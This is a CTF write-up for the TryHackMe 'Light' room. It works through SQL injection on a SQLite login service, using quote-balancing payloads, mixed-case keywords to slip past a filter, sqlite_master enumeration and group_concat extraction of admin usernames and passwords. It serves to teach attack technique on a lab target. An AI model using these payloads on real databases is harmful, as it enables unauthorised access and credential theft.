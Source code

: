 # Light

<p align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1737140605838" width="200">
</p>

> *Welcome to the Light database application!*

<br>

## 🧠 Intro
Welcome to **Light**, a short and clever room focused on **SQL Injection (SQLi)** and database misconfigurations. SQLi happens when an application directly includes unsanitized user input in SQL queries — allowing attackers to manipulate the query logic and extract sensitive data from the backend.  


*Deploy the machine and let's light this one up.* 🔦

<br>

## 🎯 Task
To pwn this room, we need to:

- Find the **username** and **password** of the **admin** user.
- Capture the **flag**.

<br>

## 🔍 Recon
The room description hints at connecting to the machine via netcat on port `1337`.

```bash
nc MACHINE_IP 1337
```

![Light_1](src/Light_1.png)

We're greeted by a minimal login interface. We try logging in with:

> Username: `smokey`

The server responds with the corresponding password — but doesn’t actually log us in. Strange. Seems like we’re just querying the database and getting a response.

Time to test for SQL injection. 😈

<br>

## 🧪 Exploitation (SQLi)

We start simple with the classic:

```sql
' OR 1=1 --
```

But the server blocks us:

> *For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)*

Okay, so comments and certain keywords are filtered. Let’s try without the comment:

```sql
' OR 1=1
```

And now we get:

> *Error: unrecognized token: "''' LIMIT 30"*

Looks like an issue with unmatched quotes. So we try:

```sql
' OR '1=1
```

Success! We get a password as a response — even though it's useless:

> *tF8tj2o94WE4LKC*

This confirm that SQLi works. Now let’s go deeper. We need to find out what DBMS we're dealing with.

We suspect it's **SQLite** (given the name *Light*), so we try this payload:

```sql
' UNION SELECT sqlite_version() '
```

...but the server complains:

> *Ahh there is a word in there I don't like :(*  

Looks like keywords are filtered in uppercase. What if we capitalize?

```
' Union Select sqlite_version() '
```

Boom. This works — we get:

> *3.31.1*

So we’re dealing with SQLite 3. Nice.

Now, let’s enumerate the schema via the `sqlite_master` table:

```sql
' Union Select sql From sqlite_master '
```

![Light_2](src/Light_2.png)

Perfect. Now let’s extract the data.

To list usernames:

```sql
' Union Select group_concat(username) From admintable '
```

![Light_3](src/Light_3.png)

Then for passwords:

```sql
' Union Select group_concat(password) From admintable '
```

![Light_4](src/Light_4.png)

Mission complete!

<br>

## 🏁 Got the Flag
On the admintable table, we find the username, the password and the flag.

```
flag{go_get_it}
```

*Straight from the shadows into the light.* 💡

<br>

## 📝 Notes
This room shows how powerful SQL injection can be even in very restricted environments. Filter bypassing, capitalization tricks, and knowledge of DBMS behavior are all key tools when digging into databases.

<br>

## 🏠 Room Info
- 🧩 [TryHackMe - Light](https://tryhackme.com/room/lightroom)
- 🏷️ Difficulty: Easy
- 🧠 Focus: SQLi (SQL Injection)
